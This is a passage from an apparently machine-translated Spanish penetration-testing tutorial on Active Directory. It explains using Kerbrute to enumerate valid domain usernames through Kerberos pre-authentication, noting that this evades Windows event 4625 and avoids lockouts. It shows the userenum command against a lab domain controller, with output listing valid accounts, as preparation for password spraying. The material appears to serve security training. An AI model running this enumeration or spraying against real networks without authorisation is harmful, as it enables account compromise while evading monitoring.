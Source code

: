 ```shell-session
userPrincipalName: fanthony@inlanefreight.local

cn: Walter Dillard
userPrincipalName: wdillard@inlanefreight.local

<SNIP>
```

---

## Usuarios enumeradores con kerbrute

Como se menciona en el`Initial Enumeration of The Domain`Sección, si no tenemos acceso desde nuestra posición en la red interna, podemos usar`Kerbrute`para enumerar cuentas publicitarias válidas y para pulverizar contraseñas.

Esta herramienta usa[Pre-autorenticación de Kerberos](https://ldapwiki.com/wiki/Wiki.jsp?page=Kerberos%20Pre-Authentication), que es una forma mucho más rápida y potencialmente más sigilosa de realizar la pulverización de contraseñas. Este método no genera ID de evento de Windows[4625: una cuenta no pudo iniciar sesión](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625), o una falla de inicio de sesión que a menudo se monitorea. La herramienta envía solicitudes TGT al controlador de dominio sin la autor-autorización de Kerberos para realizar la enumeración del nombre de usuario. Si el KDC responde con el error`PRINCIPAL UNKNOWN`, el nombre de usuario no es válido. Cada vez que el KDC solicita la preautenticación de Kerberos, esto señala que el nombre de usuario existe, y la herramienta lo marcará como válido. Este método de enumeración del nombre de usuario no causa fallas de inicio de sesión y no bloqueará las cuentas. Sin embargo, una vez que tenemos una lista de usuarios válidos y cambiar de marcha para usar esta herramienta para la pulverización de contraseñas, los intentos de preautenticación de Kerberos fallidos contarán para las cuentas de inicio de sesión fallidas de una cuenta y pueden conducir al bloqueo de la cuenta, por lo que aún debemos tener cuidado con el método elegido.

Probemos este método usando el[jsmith.txt](https://github.com/insidetrust/statistically-likely-usernames/blob/master/jsmith.txt)Lista de palabras de 48,705 Posibles nombres de usuario comunes en el formato`flast`. El[nombres estadísticamente probables](https://github.com/insidetrust/statistically-likely-usernames)Github Repo es un excelente recurso para este tipo de ataque y contiene una variedad de diferentes listas de nombre de usuario que podemos usar para enumerar los nombres de usuario válidos utilizando`Kerbrute`.

#### Enumeración de usuario de Kerbrute

  Pulverización de contraseñas: hacer una lista de usuarios de Target

```shell-session
xnoxos@htb[/htb]$  kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:16:11 >  Using KDC(s):
2022/02/17 22:16:11 >  	172.16.5.5:88

2022/02/17 22:16:11 >  [+] VALID USERNAME:	 jjones@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 sbrown@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 tjohnson@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 jwilson@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 bdavis@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 njohnson@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 asanchez@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 dlewis@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 ccruz@inlanefreight.local
```